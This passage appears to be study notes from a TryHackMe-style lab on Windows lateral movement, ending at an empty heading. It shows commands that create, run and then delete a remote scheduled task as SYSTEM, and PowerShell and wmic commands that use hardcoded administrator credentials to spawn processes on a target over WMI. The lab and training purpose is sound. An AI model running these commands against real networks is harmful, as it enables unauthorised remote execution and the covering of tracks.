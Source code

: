 ### 1.4. Creating Scheduled Tasks Remotely

```powershell
# create and run a scheduled task remotely using schtasks:
> schtasks /s TARGET /RU "SYSTEM" /create /tn "THMtask1" /tr "<command/payload to execute>" /sc ONCE /sd 01/01/1970 /st 00:00
> schtasks /s TARGET /run /TN "THMtask1"
# this will create a task named THMtask1

# For cleanup purposes, we can delete the schedulet task using the command:
> schtasks /S TARGET /TN "THMtask1" /DELETE /F
```

## 2. Moving Laterally Using WMI

### 2.1. Connecting to WMI From Powershell

```powershell
# create a PSCredential object with our user and pass
> $username = 'Administrator';
> $password = 'Mypass123';
> $securePassword = ConvertTo-SecureString $password -AsPlainText -Force;
> $credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;

# establish a WMI session from Powershell using the commands:
> $Opt = New-CimSessionOption -Protocol DCOM
> $Session = New-Cimsession -ComputerName TARGET -Credential $credential -SessionOption $Opt -ErrorAction Stop
```

### 2.2. Remote Process Creation Using WMI

* Ports:
	* 135/TCP, 49152-65535/TCP (DCERPC)
	* 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)
* Required Group Memberships: Administrators

```powershell
# remotely spawn a process from Powershell using WMI:
> $Command = "powershell.exe -Command Set-Content -Path C:\text.txt -Value munrawashere";

> Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{
CommandLine = $Command
}

# alternatively use wmic on legacy systems
wmic.exe /user:Administrator /password:Mypass123 /node:TARGET process call create "cmd.exe /c calc.exe" 
```

### 2.3. Creating Services Remotely with WMI
